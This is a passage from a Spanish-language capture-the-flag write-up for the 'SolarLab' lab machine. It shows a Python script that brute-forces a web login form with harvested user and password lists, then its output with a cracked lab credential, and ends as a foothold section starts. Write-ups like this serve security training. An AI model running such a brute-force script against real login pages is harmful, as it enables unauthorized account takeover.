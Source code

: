 He hecho un pequeño script para hacer un ataque por diccionario probando todos los usuarios y contraseñas obtenidos y también haciendo algunas combinaciones
```python
#!/usr/bin/python3
import requests
from pwn import *
LOGIN_ENDPOINT="http://report.solarlab.htb:6791/login"
USERFILE="/home/kali/Desktop/solarlab/content/users.txt"
PASSFILE="/home/kali/Desktop/solarlab/content/passwords.txt"


def brute():
    log.progress('Bruteforcing ', LOGIN_ENDPOINT)
    s = requests.Session()
    s.get(LOGIN_ENDPOINT)
    p = log.progress('Bruteforcing...')
    p.status('Trying:')
    for user in open(USERFILE, 'r'):
        for pwd in open(PASSFILE, 'r'):
            p.status("Trying {0}:{1}".format(user.strip(), pwd.strip()))
            data = {'username': user.strip(), 'password': pwd.strip()}
            headers = {'Content-Type': 'application/x-www-form-urlencoded'}
            r = s.post(LOGIN_ENDPOINT, data = data, headers = headers)
            if r.headers.get('Content-Length') != '2144' and r.headers.get('Content-Length') != '2133':
                log.success("Got a hit! " + user.strip() + ":" + pwd.strip())

if __name__ == "__main__":
    brute()
```

Y conseguimos unas credenciales válidas!
```shell
➜  content python3 brute.py
[▖] Bruteforcing : http://report.solarlab.htb:6791/login
[d] Bruteforcing...: Trying Katy.Brown:dadsfawe9dafkn
[+] Got a hit! BlakeB:ThisCanB3typedeasily1@
```

# Foothold
Antes de explorar el sitio web, me interesa saber si este sitio es un CMS reconocido y tiene vulnerabilidades encontradas.
![Write-up Image](images/SolarLab_4.png)

